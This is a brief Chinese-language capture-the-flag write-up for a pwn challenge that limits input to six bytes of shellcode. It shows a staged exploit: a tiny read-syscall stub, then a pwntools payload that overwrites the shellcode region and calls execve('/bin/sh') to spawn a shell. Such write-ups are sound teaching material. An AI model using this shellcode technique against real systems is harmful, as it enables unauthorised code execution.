

### 解题思路

在一开始通过mmap函数开辟了两个空间，分别存储shellcode和构造的栈


题目只能输入6个字节的shellcode，并且在处理函数里将除rsp以外的寄存器都清空了



rdi为mmap申请的伪造的栈的空间，赋值给rsp，作为一个栈空间。然后通过read(0,buf,size)函数重新传入shellcode

```
push rsp
pop rsi
mov edx,esi
syscall
```
当mmap两个空间的地址是随机的，当它们被分配得较近时，并且伪造栈的地址在shellcode低处时，通过read函数输入大量数据可以覆盖到shellcode，覆盖的内容如下：

```
shellcode2 = asm('''
mov eax, 0x3b
mov rdi, rsi
xor rsi, rsi
xor rdx, rdx
syscall
''',arch='amd64')
shellcode2 = "/bin/sh\0".ljust(0xb36,'\0') + shellcode2
```
使用execve系统调用，rdi保存的是rsp（伪造栈的地址），所以可以execve("/bin/sh")，获得shell。